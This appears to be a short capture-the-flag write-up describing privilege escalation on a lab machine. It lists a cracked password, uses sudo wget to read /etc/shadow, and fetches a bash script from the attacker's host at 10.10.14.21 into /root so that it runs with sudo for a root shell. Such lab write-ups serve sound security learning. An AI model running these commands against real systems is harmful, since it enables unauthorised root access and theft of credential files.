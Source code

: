 # Getting Root

/backup has shadow with hash of sammy and sunny

Creds: sammy:cooldude!

logon as sammy

* Sammy has sudo permission on wget
```bash
sudo wget -i /etc/shadow 2>&1 | awk '{print $4}'
```

### another way  is uploading a bash file
troll
```bash
#! /bin/bash
bash
```

As sammy
```bash
sudo wget 10.10.14.21/troll -O /root/troll
```

logout on sammy , and logon as sunny

sunny has sudo permission on troll
run
```bash
sudo /root/troll
```

